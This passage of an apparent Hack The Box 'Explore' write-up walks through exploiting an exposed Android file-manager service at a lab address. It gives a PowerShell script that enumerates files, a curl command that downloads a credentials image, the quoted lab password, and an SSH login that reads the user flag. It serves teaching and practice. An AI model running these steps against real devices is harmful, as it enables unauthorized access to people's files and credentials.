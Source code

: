 ```powershell
#!/usr/bin/pwsh

$methods = @('listFiles','listPics','listVideos','listAudios','listAppsAll','getDeviceInfo')

foreach($method in $methods){
    Write-host ">>> Method: $method" -foregroundcolor green
    Invoke-RestMethod -method POST -header @{"Content-Type" = "application/json"} -body "{'command':'$method'}" -uri http://10.10.10.247:59777 | fl *
}
```

From the received output, the most interesting result was one picture called `creds.jpg`

```plaintext
>>> Method: listPics

name     : concept.jpg
time     : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size     : 135.33 KB (138,573 Bytes)

name     : anc.png
time     : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size     : 6.24 KB (6,392 Bytes)

name     : creds.jpg
time     : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size     : 1.14 MB (1,200,401 Bytes)

name     : 224_anc.png
time     : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size     : 124.88 KB (127,876 Bytes)
```

To download the file used the command below, also permited by the vulnerable app found:

```bash
curl --header "Content-Type: application/json" http://10.10.10.247:59777/storage/emulated/0/DCIM/creds.jpg -o creds.jpg
```

Opening the image in a viewer, noticed that we had some credentials on it: **kristi:Kr1sT!5h@Rp3xPl0r3!**

![HTB Explore - creds.jpg](https://i.imgur.com/senu2Y7.png){: .align-center}

These credentials allowed me to connect through SSH on port 2222, as previously enumerated. The first flag was found at `/sdcard/user.txt` file:

```bash
$ ssh kristi@10.10.10.247 -p 2222
Password authentication
Password:
:/ $ cd /sdcard/
:/sdcard $ cat user.txt
<redacted>
```
